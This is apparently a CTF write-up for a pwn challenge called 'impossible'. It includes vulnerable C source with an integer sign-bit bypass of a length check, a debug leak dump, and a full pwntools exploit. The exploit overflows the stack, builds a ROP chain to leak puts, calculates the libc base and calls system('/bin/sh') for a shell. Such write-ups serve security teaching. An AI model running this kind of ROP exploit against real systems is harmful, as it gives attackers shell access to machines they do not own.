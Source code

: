 # impossible
int_max=2147483647 and int_min=-2147483648
int=4byte = 32bits
2147483647=01111111111111111111111111111111(32)
2147483648=10000000000000000000000000000000(32) 
1st is sign bit



> $ man read func 
> ssize_t read(int fd, void *buf, size_t count);

`size_t` is unsign ,so can bypass the check and overflow the buf
go with rop chain
leak the puts address and jump back to main
calc the libc addr
jump to libc's system function

why use rawinput
```
[DEBUG] Received 0xd bytes:
00000000  c0 c9 79 9d  38 7f 0a 53  69 7a 65 3a  20  │··y·│8··S│ize:│ │
```
local and remote case are different 
`c0 c9 79 9d  38 7f` is puts address
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <stdint.h>
void init(){
    setvbuf(stdout,0,2,0);
    setvbuf(stdin,0,2,0);
    setvbuf(stderr,0,2,0);
}
//       0x100=256
int main(){
    init();
    char buf[0x100];
    int len = 0;
    printf( "Size: " );
    scanf( "%d" , &len );
    if( len < 0 )
    {
        len = abs( len );
        puts( "Bad hacker :(" );
    }
    if( len > 0x100 )
    {
        len = 0x100;
        puts( "Too long!" );
    }
    puts( "It's safe now :)" );
    read( 0 , buf , len );
    return 0;
}

```
```python=
from pwn import *
context.log_level = 'DEBUG'
offset =(256+8)
elf=ELF('./impossible')
lib=ELF('./libc-2.27.so')
rop_elf=ROP(elf)
# r=remote('eductf.zoolab.org',10105)
r=process('./impossible')
r.recvuntil(': ')
r.sendline('2147483648')
r.recvuntil(':)')
PUTS_PLT = elf.plt['puts']            # find gadget
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop_elf.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop_elf.find_gadget(['ret']))[0]
log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
FUNC_GOT = elf.got['puts']
rop1 = 'a'*offset + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
r.sendline(rop1)

r.recvuntil(': ')
leak=raw_input('in:')    #lazy to fix
libc_base=int(leak,16)-lib.symbols['puts']
r.sendline('2147483648')
r.recvuntil(':)')
log.info(hex(libc_base))
BINSH = next(lib.search("/bin/sh"))
SYSTEM = lib.sym["system"]
log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
rop2 ='a'*offset+ p64(POP_RDI) + p64(BINSH+libc_base) +p64(RET)+ p64(SYSTEM+libc_base)
r.sendline(rop2)
r.interactive()
'''
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
256+4 ok
256+8 segfault
'''

```